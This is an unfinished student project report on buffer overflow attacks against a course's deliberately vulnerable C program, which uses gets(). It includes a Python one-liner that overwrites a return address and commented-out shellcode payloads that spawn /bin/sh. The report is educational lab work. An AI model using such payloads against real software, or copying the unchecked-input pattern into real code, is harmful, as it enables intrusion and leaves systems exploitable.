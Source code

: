 
# Overview of Buffer Overflow Attack Example Problems
#### Sabrina Pereira and Micah Reid


<!-- Content
Your project report should answer the following questions (note that some are the same as in the proposal and the update):

1) What is the goal of your project; for example, what do you plan to make, and what should it do?

2) What are your learning goals; that is, what do you intend to achieve by working on this project?

3) What resources did you find that were useful to you.  If you found any resources you think I should add to the list on the class web page, please email them to me.

4) What were you able to get done?  Include in the report whatever evidence is appropriate to demonstrate the outcome of the project.  Consider including snippets of code with explanation; do not paste in large chunks of unexplained code.  Consider including links to relevant files.  And do include output from the program(s) you wrote.

5) Explain at least one design decision you made.  Were there several ways to do something?  Which did you choose and why?

6) You will probably want to present a few code snippets that present the most important parts of your implementation.  You should not paste in large chunks of code or put them in the Appendix.  You can provide a link to a code file, but the report should stand alone; I should not have to read your code files to understand what you did.

7) Reflect on the outcome of the project in terms of your learning goals.  Between the lower and upper bounds you identified in the proposal, where did your project end up?  Did you achieve your learning goals?

Audience: Target an external audience that wants to know what you did and why.  More specifically, think about students in future versions of SoftSys who might want to work on a related project.  Also think about people who might look at your online portfolio to see what you know, what you can do, and how well you can communicate.

 You don't have to answer the questions above in exactly that order, but the logical flow of your report should make sense.  Do not paste the questions into your final report. -->





## Project Goals
Our goal is to understand the mechanics of buffer overflow attacks, and common issues that would make a program susceptible to this type of security risk. Our minimum goal is to go through the provided exercises to perform buffer overflow attacks (provided by Steve). Our reach goals are to understand buffer overflow attacks enough to create our own programs that either have exploitable vulnerabilities, or use practices to prevent buffer overflow attacks.


We chose to learn to use the CLion IDE and debugger to do this because both us wanted to learn about what debugging tools exist, what they look like, and what capabilities they afford us.

<!-- ## Learning Goals
We hope to gain experience using a debugger as this will allow us to gain more insight into how these attacks are performed, and what is actually happening in the memory. We hope to answer questions such as:
  - How does the data get copied into the buffer?
  - What types of programs are susceptible to this type of attack?
  - How would one go about performing this type of attack?
  - How do we know if our programs would be vulnerable? -->


## What is a Buffer Overflow Attack?

<!-- A buffer overflow condition exists when a program attempts to put more data in a buffer than it can hold or when a program attempts to put data in a memory area past a buffer. In this case, a buffer is a sequential section of memory allocated to contain anything from a character string to an array of integers. Writing outside the bounds of a block of allocated memory can corrupt data, crash the program, or cause the execution of malicious code.

A buffer overflow, or buffer overrun, is a common software coding mistake that an attacker could exploit to gain access to your system. To effectively mitigate buffer overflow vulnerabilities, it is important to understand what buffer overflows are, what dangers they pose to your applications, and what techniques attackers use to successfully exploit these vulnerabilities. -->

First, a buffer overflow occurs when a program tries to put data into a buffer that is of insufficient size for the operation. There is a specific block of memory that is allocated to storing that data, and going outside those bounds can cause various issues. If you know information about how these buffers are stored and what type of information is around them, you can intentionally cause a buffer overflow in a vulnerable program and modify its normal behavior.

This may include causing the program to crash, making the program skip to a different part of its instructions, or even opening a shell for the attacker.

Three resources we used to learn about buffer overflow attacks are the following:
  - [Computerphile video on Buffer Overflow Attack](https://www.youtube.com/watch?v=1S0aBV-Waeo)
  - [Veracode - What Is a Buffer Overflow?](https://www.veracode.com/security/buffer-overflow)
  - [OWASP - Buffer Overflow](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)



## How is a Buffer Overflow Attack Executed?

There are various ways memory can be overwritten to modify the program, but one common way, and the way that we will explore, is to overwrite the return address, as the location of it will be following the buffer to be written into as a way for the program to continue. The return address will be in a determinable location. The following examples go through our process in executing a buffer overflow attack in two different ways by doing this.


## Example 1: Jump to a Unauthorized Area in the Code
For this example, we will be using example code provided to us by Professor Steve Matsumoto that [can be found here](https://github.com/syclops/buffer-overflow-examples). In this example, we have a function `load_software` that should only be run if a user has an authorized 15-character key. However, the program has no bounds checking and this is what will allow us to overwrite the return address after the function to get the user's input.

Below is the `main()` function for this program:

```
int main() {
  puts("Enter your 15-character license key:");
  char key[BUFFER_SIZE];
  getbuf(key);
  if (validate(key)) {
    load_software();
    return 0;
  }
  return 1;
}
```



### Step 1: Figure how the data is stored in the buffer
To do this, made use of both the knowledge we learned in class, and learned how to use some of CLion's debugging tools, specifically the breakpoints and Memory View.

Looking at the `main()` function, we have a function `getbuf()` that will be put on the stack.

```
void getbuf(char* buf) {
  gets(buf);
}
```

This function `gets` fills the buffer from user standard input
entry.

![](images/getbuf_pre.png)

We see that once we process the input, the data is stored in the buffer from a lower memory address to a higher memory address.

![](images/getbuf_post.png)


### Step 2. Figuring out return address on the stack
From the Memory View, we can also see where the return address is on the stack. We can see that the address for `main` on the Frames pane is the same address that is 8 bytes from our buffer's end (including the null terminator) in little endian format.

![](images/return_addr.png)


- Stack stores return address 8 bytes from last array element

### Step 3. Figure out the address of `load_software`
To find out the memory address for the function we wanted to jump to, we used GDB's `info address`. In this example, we have the address `0x401e16`.

![](images/info_addr.png)


### Step 4. Overwriting return address
Using all of this information, we can overwrite the return address for `getbuf()` that stored in memory such that it looks something like this, inputting the desired address to jump to in little endian format:


![](images/overflow_mem_view_marked.png)

One way to do this is by running something like the following as was done in this example that allows you to input raw bytes using `\x` and see the result:

```
python3 -c 'import sys; sys.stdout.write("1111122222333330111222\x16\x1e\x40")' | ./foo
```
![](images/buffer_overflow_res.png)


## Example 2: Executing Shell Code
This example follows a similar structure to the previous, but instead of overwriting the buffer code such that the return address is set to jump the `load_software` function, we fill the buffer up with a sequence of bytes in our shellcode and have the return address jump to the start of that sequence.


This example will use the same [code as Example 1]((https://github.com/syclops/buffer-overflow-examples)) and shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-603.php)). However, we will change the example code such that `BUFFER_SIZE = 64` as this example will require a given buffer large enough to fit our shellcode.




<!-- python3 -c 'import sys; sys.stdout.write( "\x90"*10 + "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + "\xc4\x2f\x4c")' | ./foo -->


<!-- right function but wrong contents, has right shellcode -->

Sabrina stack address : 7fff ffffd8a0

\xff\x7f\x00\x00   \xa0\xd8\xff\xff

<!--
python3 -c 'import sys; sys.stdout.buffer.write( b"\x90"*10 + b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + b"\xc4\x2f\x4c")' > ex.txt -->





<!--
Submission Mechanics

1) In your project report, you should already have a folder called "reports" that contains a Markdown document called "update.md".  Make a copy of "update.md" called "report.md"

2) At the top of this document, give your report a title that at least suggests the topic of the project.  The title should not contain the name of the class or the words "project" or "report".

3) List the complete names of all members of the team.

4) Answer the questions in the Content section, above. Use typesetting features to indicate the organization of the document.  Do not include the questions as part of your document.

5) Complete your update, view it on GitHub, and copy the GitHub URL.  Then paste the URL in the submission space below.  You only need one report for each team, but everyone should submit it. -->

